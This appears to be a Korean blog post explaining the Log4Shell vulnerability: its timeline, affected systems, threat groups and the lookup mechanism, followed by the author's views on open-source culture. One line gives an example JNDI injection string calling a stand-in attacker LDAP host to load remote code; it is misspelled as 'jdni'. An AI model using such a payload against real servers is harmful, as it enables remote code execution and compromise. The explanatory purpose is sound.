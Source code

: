 ```yaml
---
title: About Log4j 
categories: [Tech, Issue]
tags: [issue]    
---
```


# Log4J Vulnerability or Log4Shell


<img src="https://user-images.githubusercontent.com/37606666/147638200-7c837427-edcc-4e1e-b7a7-e1a2d911d524.png" width="800" height="500">

<img src="https://user-images.githubusercontent.com/37606666/147638197-3fd6d141-6c4d-4eac-8bf5-edaa0aae6053.png" width="800" height="500">
　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　
　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　

## When
- 12/1 부터 사용되어진것으로 예상
- 12/9 알리바바 클라우드팀에서 발견 (Log4J 2.14)
- 12/17 Log4J 2.15.0 업데이트 이후에도 여전히 RCE 가능한게 발견
- 12/18 Log4J 2.17.0 업데이트 

## Where
- java를 사용하는 모든 사이트
- 각 나라의 정부 웹사이트, 애플,테슬라,마인크래프트 등 정부와 기업

## What
- Java를 사용하는 웹 사이트, 게임, 서버

## Who
- Hacker
- Hafnium (중국 해킹 그룹)
- Charming Kitten (이란의 해킹 그룹)
- Botnet (서버 이용 비트코인 채굴)
- EvilCorp (워드로 악성코드 감염)

## How
- Log4J의 취약점을 이용해서 유저 인풋을 서버가 실행하게 만듬.

## Why
- 해킹하기 위해 


### Concept
- RCE ( Remote code execution)
- 역사상 최악의 보안사태
- CVSS 10/10
- 범위가 매우 크고 넓음.
- Log4J는 Java 의 패키지로, 그 결함으로 인해 원격 코드 조종이 가능해짐.
- Log4J는 로그 기록의 프레임워크 
- 기본적으로 유저의 입력을 백엔드에서 실행하지 않음(Not trust).
- Lookups는 어느정도 유저의 입력을 신뢰함. 
- ${jdni:ldap://attacker.com/a} 식으로 공격. 
- 이 경우 해당 URL 에 포함된 코드가 서버에서 실행이 될 수 있음!
- Dos (Denial of Service)


# My thought
- 오픈소스를 자유롭게 사용하고, 수익을 내는것이 정당한가?
- 자신이 최선이라고 생각한 정답을 아낌없이 공유하는것, 그것이 소프트웨어 발전에 이바지 했다고 생각한다.
- 최선이라고 생각한 정답이 많은 사람들과 소수의 뛰어난 사람들에게 검증의 과정을 거치고, 수정되고 추가되면서 소프트 웨어를 공부하는 모두에게 이익이 되었기 때문이다.
- 최선의 정답을 낸 최초의 사람은 다양한 시각에서 자신의 정답을 리뷰 받을 수 있고
- 그 정답을 검증하는 많은 사람들은 그 자체로 실력을 증명하고 덧붙여 실력을 쌓을 수 있고
- 정답을 내지 못한 사람들은 정답을 쉽게 접하면서 그 정답까지 도달하는 과정을 배울 수 있다. 
- 따라서 오픈소스를 사용하는 문화는 지속되어야하며, 수익을 내는 것도 자유라고 생각한다.